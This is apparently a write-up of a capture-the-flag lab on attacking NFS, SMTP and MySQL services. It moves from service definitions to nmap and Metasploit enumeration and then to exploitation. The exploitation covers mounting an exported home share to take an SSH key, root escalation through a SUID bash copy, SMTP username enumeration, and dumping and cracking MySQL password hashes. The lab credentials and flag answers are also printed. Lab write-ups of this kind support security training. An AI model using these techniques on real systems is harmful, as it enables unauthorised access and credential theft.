

> # Network Services 2

## Summary
- [Summary](#summary)
  - [Task 2 - Understanding NFS](#task-2---understanding-nfs)
  - [Task 3 - Enumerating NFS](#task-3---enumerating-nfs)
  - [Task 4 - Exploiting NFS](#task-4---exploiting-nfs)
  - [Task 5 - Understanding SMTP](#task-5---understanding-smtp)
  - [Task 6 - Enumerating SMTP](#task-6---enumerating-smtp)
  - [Task 7 - Exploiting SMTP](#task-7---exploiting-smtp)
  - [Task 8 - Understanding MySQL](#task-8---understanding-mysql)
  - [Task 9 - Enumerating MySQL](#task-9---enumerating-mysql)
  - [Task 10 - Exploiting MySQL](#task-10---exploiting-mysql)

### Task 2 - Understanding NFS
1. What does NFS stand for?<br>
    > NFS stands for "Network File System" and allows a system to share directories and files with others over a network. 

    **Answer:** Network File System

1. What process allows an NFS client to interact with a remote directory as though it was a physical device?<br>
    > the client will request to mount a directory from a remote host on a local directory just the same way it can mount a physical device. 

    **Answer:** Mounting

1. What does NFS use to represent files and directories on the server?<br>
    **Answer:** file handle

1. What protocol does NFS use to communicate between the server and client?<br>
    > The mount service will then act to connect to the relevant mount daemon using RPC.

    **Answer:** RPC

1. What two pieces of user data does the NFS server take as parameters for controlling user permissions? Format: parameter 1 / parameter 2<br>
    **Answer:** user id / group id

1. Can a Windows NFS server share files with a Linux client? (Y/N)<br>
    > A computer running Windows Server can act as an NFS file server for other non-Windows client computers.

    **Answer:** Y

1. Can a Linux NFS server share files with a MacOS client? (Y/N)<br>
    **Answer:** Y

1. What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.<br>
    **Answer:** 4.2

### Task 3 - Enumerating NFS
1. Conduct a thorough port scan scan of your choosing, how many ports are open?<br>
    ```
    $ sudo nmap 10.10.3.83 -p- -Pn
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 14:46 UTC
    Nmap scan report for 10.10.3.83
    Host is up (0.31s latency).
    Not shown: 65528 closed tcp ports (reset)
    PORT      STATE SERVICE
    22/tcp    open  ssh
    111/tcp   open  rpcbind
    2049/tcp  open  nfs
    35429/tcp open  unknown
    39537/tcp open  unknown
    41849/tcp open  unknown
    58355/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 1037.19 seconds
    ```
    **Answer:** 7

1. Which port contains the service we're looking to enumerate?<br>
    **Answer:** 2049

1. Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?<br>
    ```
    $ showmount -e 10.10.3.83
    Export list for 10.10.3.83:
    /home *
    ```
    **Answer:** /home

1. Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?<br>
    Run command `sudo mount -t nfs 10.10.3.83:home /tmp/mount/ -nolock` then list that directory.<br>
    **Answer:** cappucino

1. Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?<br>
    ```
    $ ls /tmp/mount/cappucino/ -a
    .  ..  .bash_history  .bash_logout  .bashrc  .cache  .gnupg  .profile  .ssh  .sudo_as_admin_successful
    ```
    Use `ls -a` to list all files and directories.<br>
    **Answer:** .ssh

1. Which of these keys is most useful to us?<br>
    **Answer:** id_rsa

1. Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)<br>
    **Answer:** Y

### Task 4 - Exploiting NFS
1. Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?<br>
    **Answer:** s

1. Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.<br>
    ```
    $ ls -al bash 
    -rwsr-sr-x 1 root g18520560 1113504 Feb 22 15:05 bash
    ```
    **Answer:** -rwsr-sr-x

1. Great! If all's gone well you should have a shell as root! What's the root flag?<br>
    ```
    $ ./bash -p
    bash-4.4# id
    uid=1000(cappucino) gid=1000(cappucino) euid=0(root) groups=1000(cappucino),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
    bash-4.4# cat /root/root.txt 
    THM{nfs_got_pwned}
    ```
    **Answer:** THM{nfs_got_pwned}

### Task 5 - Understanding SMTP
1. What does SMTP stand for?<br>
    **Answer:** Simple Mail Transfer Protocol

1. What does SMTP handle the sending of? (answer in plural)<br>
    > It is utilised to handle the sending of emails

    **Answer:** emails

1. What is the first step in the SMTP process?<br>
    > This initiates the SMTP handshake

    **Answer:** SMTP handshake

1. What is the default SMTP port?<br>
    > This connection works over the SMTP port- which is usually 25.

    **Answer:** 25

1. Where does the SMTP server send the email if the recipient's server is not available?<br>
    > If the recipient's server can't be accessed, or is not available- the Email gets put into an SMTP queue.

    **Answer:** SMTP queue

1. On what server does the Email ultimately end up on?<br>
    **Answer:** POP/IMAP

1. Can a Linux machine run an SMTP server? (Y/N)<br>
    >  with many other variants of SMTP being available to run on Linux.

    **Answer:** Y

1. Can a Windows machine run an SMTP server? (Y/N)<br>
    **Answer:** Y

### Task 6 - Enumerating SMTP
1. First, lets run a port scan against the target machine, same as last time. What port is SMTP running on?<br>
    ```
    $ nmap 10.10.172.102
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 09:13 UTC
    Nmap scan report for 10.10.172.102
    Host is up (0.31s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    22/tcp open  ssh
    25/tcp open  smtp

    Nmap done: 1 IP address (1 host up) scanned in 23.28 seconds
    ```
    **Answer:** 25

1. Okay, now we know what port we should be targeting, let's start up Metasploit. What command do we use to do this?<br>
    **Answer:** msfconsole

1. Let's search for the module "smtp_version", what's it's full module name?<br>
    **Answer:** auxiliary/scanner/smtp/smtp_version

1. Great, now- select the module and list the options. How do we do this?<br>
    **Answer:** options

1. Have a look through the options, does everything seem correct? What is the option we need to set?<br>
    **Answer:** RHOST

1. Set that to the correct value for your target machine. Then run the exploit. What's the system mail name?<br>
    ```
    msf6 auxiliary(scanner/smtp/smtp_version) > run
    [+] 10.10.172.102:25      - 10.10.172.102:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a
    [*] 10.10.172.102:25      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    **Answer:** polosmtp.home

1. What Mail Transfer Agent (MTA) is running the SMTP server? This will require some external research.<br>
    The metasploit will display this when we run the enum.<br>
    **Answer:** Postfix

1. Good! We've now got a good amount of information on the target system to move onto the next stage. Let's search for the module "smtp_enum", what's it's full module name?<br>
    **Answer:** auxiliary/scanner/smtp/smtp_enum

1. What option do we need to set to the wordlist's path?<br>
    **Answer:** USER_FILE

1. Once we've set this option, what is the other essential paramater we need to set?<br>
    **Answer:** RHOSTS

1. Okay! Now that's finished, what username is returned?<br>
    ```
    msf6 auxiliary(scanner/smtp/smtp_enum) > run
    [*] 10.10.172.102:25      - 10.10.172.102:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
    [+] 10.10.172.102:25      - 10.10.172.102:25 Users found: administrator
    [*] 10.10.172.102:25      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```

### Task 7 - Exploiting SMTP
1. What is the password of the user we found during our enumeration stage?<br>
    ```
    [22][ssh] host: 10.10.172.102   login: administrator   password: alejandro
    ```
    **Answer:** alejandro

1. Great! Now, let's SSH into the server as the user, what is contents of smtp.txt<br>
    **Answer:** THM{who_knew_email_servers_were_c00l?}

### Task 8 - Understanding MySQL
1. What type of software is MySQL?<br>
    **Answer:** relational database management system

1. What language is MySQL based on?<br>
    **Answer:** SQL

1. What communication model does MySQL use?<br>
    **Answer:** client-server

1. What is a common application of MySQL?<br>
    > It is commonly used as a back end database for many prominent websites and forms an essential component of the LAMP stack, which includes: Linux, Apache, MySQL, and PHP.

    **Answer:** back end database

1. What major social network uses MySQL as their back-end database? This will require further research.<br>
    **Answer:** facebook

### Task 9 - Enumerating MySQL
1. As always, let's start out with a port scan, so we know what port the service we're trying to attack is running on. What port is MySQL using?<br>
    ```
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-01 04:41 UTC
    Nmap scan report for 10.10.70.91
    Host is up (0.31s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT     STATE SERVICE
    22/tcp   open  ssh
    3306/tcp open  mysql

    Nmap done: 1 IP address (1 host up) scanned in 4.60 seconds
    ```
    **Answer:** 3306

1. Search for, select and list the options it needs. What three options do we need to set? (in descending order).<br>
    <br>
    **Answer:** PASSWORD/RHOSTS/USERNAME

1. Run the exploit. By default it will test with the "select version()" command, what result does this give you?<br>
    ```
    msf6 auxiliary(admin/mysql/mysql_sql) > run
    [*] Running module against 10.10.70.91
    [*] 10.10.70.91:3306 - Sending statement: 'select version()'...
    [*] 10.10.70.91:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
    [*] Auxiliary module execution completed
    ```
    **Answer:** 5.7.29-0ubuntu0.18.04.1

1. Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?<br>
    ```
    msf6 auxiliary(admin/mysql/mysql_sql) > run
    [*] Running module against 10.10.70.91
    [*] 10.10.70.91:3306 - Sending statement: 'show databases'...
    [*] 10.10.70.91:3306 -  | information_schema |
    [*] 10.10.70.91:3306 -  | mysql |
    [*] 10.10.70.91:3306 -  | performance_schema |
    [*] 10.10.70.91:3306 -  | sys |
    [*] Auxiliary module execution completed
    ```
    **Answer:** 4

### Task 10 - Exploiting MySQL
1. First, let's search for and select the "mysql_schemadump" module. What's the module's full name?<br>
    ```
    msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schema

    Matching Modules
    ================

    #  Name                                      Disclosure Date  Rank    Check  Description
    -  ----                                      ---------------  ----    -----  -----------
    0  auxiliary/scanner/mysql/mysql_schemadump  .                normal  No     MYSQL Schema Dump


    Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_schemadump
    ```
    **Answer:** auxiliary/scanner/mysql/mysql_schemadump

1. Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?<br>
    <br>
    **Answer:** x$waits_global_by_latency

1. Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name?<br>
    ```
    msf6 auxiliary(scanner/mysql/mysql_schemadump) > search mysql_hashdump

    Matching Modules
    ================

    #  Name                                    Disclosure Date  Rank    Check  Description
    -  ----                                    ---------------  ----    -----  -----------
    0  auxiliary/scanner/mysql/mysql_hashdump  .                normal  No     MYSQL Password Hashdump
    1  auxiliary/analyze/crack_databases       .                normal  No     Password Cracker: Databases
    2    \_ action: hashcat                    .                .       .      Use Hashcat
    3    \_ action: john                       .                .       .      Use John the Ripper


    Interact with a module by name or index. For example info 3, use 3 or use auxiliary/analyze/crack_databases
    After interacting with a module you can manually set a ACTION with set ACTION 'john'
    ```
    **Answer:** auxiliary/scanner/mysql/mysql_hashdump

1. Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?<br>
    ```shell
    msf6 auxiliary(scanner/mysql/mysql_hashdump) > run
    [+] 10.10.70.91:3306 - Saving HashString as Loot: root:
    [+] 10.10.70.91:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] 10.10.70.91:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] 10.10.70.91:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
    [+] 10.10.70.91:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
    [+] 10.10.70.91:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
    [*] 10.10.70.91:3306 - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    **Answer:** carl

1. What is the user/hash combination string?<br>
    **Answer:** carl:*EA031893AA21444B170FC2162A56978B8CEECE18

1. Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found?<br>
    <br>
    **Answer:** doggie

1. What's the contents of MySQL.txt<br>
    Connect to the server with SSH account `carl:doggie`.<br>
    ```
    carl@polomysql:~$ cat MySQL.txt 
    THM{congratulations_you_got_the_mySQL_flag}
    ```
    **Answer:** THM{congratulations_you_got_the_mySQL_flag}
